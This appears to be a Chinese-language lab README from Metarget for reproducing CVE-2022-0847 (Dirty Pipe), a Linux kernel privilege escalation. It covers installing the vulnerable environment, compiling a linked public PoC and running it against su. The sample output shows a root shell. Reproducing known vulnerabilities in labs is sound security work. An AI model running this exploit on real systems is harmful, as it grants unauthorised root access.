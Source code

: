 # Linux内核漏洞导致权限提升（CVE-2022-0847）

## 场景介绍

请参考的[Max Kellermann的文章](https://dirtypipe.cm4all.com)，下文的PoC出自[dirtypipez.c](https://haxx.in/files/dirtypipez.c)。

## 环境搭建

宿主机环境：

- Ubuntu 18。04

首先切换内核，直接通过Metarget安装环境

```
./metarget cnv install cve-2022-0847 --verbose
```

## 漏洞复现

```bash
gcc -o poc poc.c
```

编译好[poc.c](poc.c)，执行即可。例如：

```
ubuntu@test:~$ ls
poc  poc.c
ubuntu@test:~$ ./poc `which su`
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
```